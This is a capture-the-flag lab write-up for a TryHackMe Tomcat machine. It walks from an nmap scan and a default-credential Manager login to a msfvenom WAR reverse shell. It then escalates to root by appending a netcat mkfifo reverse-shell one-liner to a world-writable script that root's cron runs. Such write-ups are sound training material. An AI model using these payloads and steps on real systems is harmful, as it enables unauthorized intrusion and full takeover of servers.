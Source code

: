 # Room
https://tryhackme.com/room/bsidesgtthompson

# Task 1
* Enumeration - nmap
    ```
    nmap -A -T4 10.10.72.85

    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-29 16:01 EST
    Nmap scan report for 10.10.72.85
    Host is up (0.14s latency).
    Not shown: 997 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
    |   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
    |_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
    8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    8080/tcp open  http    Apache Tomcat 8.5.5
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/8.5.5
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 19.90 seconds
    ```
* Enumeration - nmap review
Tomcat is running on this server, we'll try to browse the site first

* Enumeration - browse Tomcat
    * Opened ZAP
    * Opened Firefox and set FoxyProxy to use ZAP
    * In ZAP
        * Quick Start > Automated Scan > IP of target + port 8080
        * Use traditional spider
        * Start Scan
    * Browsed around the site
    * Clicked on Manager App and was able to login with the default creds
    * From here you can upload a WAR file and deploy it

* Exploit research - malicious WAR files
    * https://netsec.ws/?p=331
    * https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

* Exploit creation - msfvenom
    ```
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=a.b.c.d LPORT=1234 -f war > shell.war
    Payload size: 1098 bytes
    Final size of war file: 1098 bytes
    ```
* Create a listener
    ```
    nc -nvlp 1234
    listening on [any] 1234 ...
    ```
* Upload and deploy the malicious WAR file, then navigate to the shell directory
    ```
    https://10.10.72.85:8080/shell/
    ```
* Check listener
    ```
    listening on [any] 1234 ...
    connect to [a.b.c.d] from (UNKNOWN) [10.10.72.85] 38160
    whoami
    tomcat
    ```
* Upgrade the netcat shell
    ```
    Python bash upgrade fails, use sh instead

    python -c 'import pty;pty.spawn("/bin/sh")'
    $ whoami
    whoami
    tomcat
    $ 

    $ bash -i   
    tomcat@ubuntu:/$        
    ```
* Check /home
    ```
    tomcat@ubuntu:~$ cd /home
    cd /home
    tomcat@ubuntu:/home$ ls -lrta
    ls -lrta
    total 12
    drwxr-xr-x  3 root root 4096 Aug 14  2019 .
    drwxr-xr-x 22 root root 4096 Aug 14  2019 ..
    drwxr-xr-x  4 jack jack 4096 Aug 23  2019 jack
    tomcat@ubuntu:/home$ cd jack
    cd jack
    tomcat@ubuntu:/home/jack$ ls -lrta
    ls -lrta
    total 48
    drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
    -rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
    -rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
    -rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
    drwx------ 2 jack jack 4096 Aug 14  2019 .cache
    -rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
    -rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
    drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
    -rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
    -rw------- 1 root root 1476 Aug 14  2019 .bash_history
    -rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
    drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
    -rw-r--r-- 1 root root   39 Jan 29 14:25 test.txt
    tomcat@ubuntu:/home/jack$ cat user.txt
    cat user.txt
    [removed]
    ```
* Check id.sh and test.txt in /home/jack
    ```
    tomcat@ubuntu:/home/jack$ cat id.sh
    cat id.sh
    #!/bin/bash
    id > test.txt
    tomcat@ubuntu:/home/jack$ cat test.txt
    cat test.txt
    uid=0(root) gid=0(root) groups=0(root)
    ```
* Check cron
    ```
    tomcat@ubuntu:/home/jack$ cat /etc/crontab
    cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.

    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    *  *    * * *   root    cd /home/jack && bash id.sh
    ```
* Setup listener 2
    ```
    nc -nvlp 4321
    listening on [any] 4321 ...
    ```
* Append to id.sh
    ```
    tomcat@ubuntu:/home/jack$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc a.b.c.d 4321 >/tmp/f' >> id.sh   
    
    tomcat@ubuntu:/home/jack$ cat id.sh
    cat id.sh
    #!/bin/bash
    id > test.txt
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc a.b.c.d 4321 >/tmp/f
    ```
* Wait for cron to run, then check listener
    ```
    connect to [a.b.c.d] from (UNKNOWN) [10.10.72.85] 43988
    /bin/sh: 0: can't access tty; job control turned off
    # whoami
    root
    # cd /root
    # ls -lrta
    total 24
    -rw-r--r--  1 root root  148 Aug 17  2015 .profile
    -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
    drwxr-xr-x  2 root root 4096 Aug 14  2019 .nano
    -rw-r--r--  1 root root   33 Aug 14  2019 root.txt
    drwx------  3 root root 4096 Aug 14  2019 .
    drwxr-xr-x 22 root root 4096 Aug 14  2019 ..
    # cat root.txt
    [removed]
    ```
# Review
Our initial scan found Tomcat installed.  After loading up ZAP and Firefox I manually browsed the site and discovered I could login to the Manager App with default creds.  Once logged in I noticed you could upload a WAR file.  Researching this lead to the discovery of creating a malicious shell with msfvenom.  I created the shell, uploaded the WAR file, and then navigated to the /shell directory in the web page while I had a listener up.  At this point I had a tomcat user shell.  Python tty upgrades didn't work, so I used bash -i and called it good enough.  

Looking at the /home directory I found the jack folder was accessible, inside we got the user flag.  Inside the /home/jack directory were two files, id.sh and test.txt.  Id.sh was creating test.txt.  A review of/etc/crontab found a cron job executing every minute as root which was running id.sh.  I setup a second listener and then appended shell code to id.sh since it was 777.  After waiting a minute for the cron job to run I received a root shell on my listener.